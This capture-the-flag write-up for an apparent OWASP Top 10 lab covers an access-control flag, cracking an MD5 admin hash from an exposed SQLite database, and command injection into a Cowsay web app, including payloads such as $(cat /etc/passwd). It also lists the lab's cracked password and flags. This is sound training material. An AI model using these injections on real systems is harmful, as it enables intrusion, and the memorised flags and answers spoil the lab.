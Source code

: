 **Flag**: `flag{fivefourthree}`

**Key Insight**: Applications must validate authorization for every object access, not just authentication.

---

### Task 5-8: Cryptographic Failures

**Target**: `http://MACHINE_IP:81/`

**Step 1: Source Code Analysis**
- Viewed page source (CTRL + U)
- Found developer comment revealing sensitive directory
- **Directory**: `/assets`

**Step 2: Database Discovery**
```bash
# Navigate to /assets directory
# Found file: webapp.db
# Downloaded database file
```

**Step 3: SQLite Database Analysis**
```bash
ls -l
sqlite3 webapp.db
.tables
PRAGMA table_info(users);
SELECT * FROM users;
```

**Extracted Hash**: `6eea9b7ef19179a06954edd0f6c05ceb`

**Step 4: Hash Cracking**
- Tool: CrackStation (https://crackstation.net/)
- Hash type: MD5
- **Cracked Password**: `qwertyuiop`

**Step 5: Admin Access**
- Username: `admin`
- Password: `qwertyuiop`
- **Flag**: `THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}`

**Key Insight**: Sensitive data (databases, credentials) should never be accessible in web directories. Use strong hashing algorithms (bcrypt, Argon2) instead of MD5.

---

### Task 9-10: Command Injection

**Target**: `http://MACHINE_IP:82/` (Cowsay application)

**Commands Injected:**
```bash
$(whoami)          # Returns: apache
$(ls)              # Returns: css drpepper.txt index.php js
$(ls -la)          # Detailed directory listing
$(cat /etc/passwd) # System users
$(cat /etc/os-release) # OS information
$(awk -F: '$3 >= 1000' /etc/passwd) # Filter standard users
```

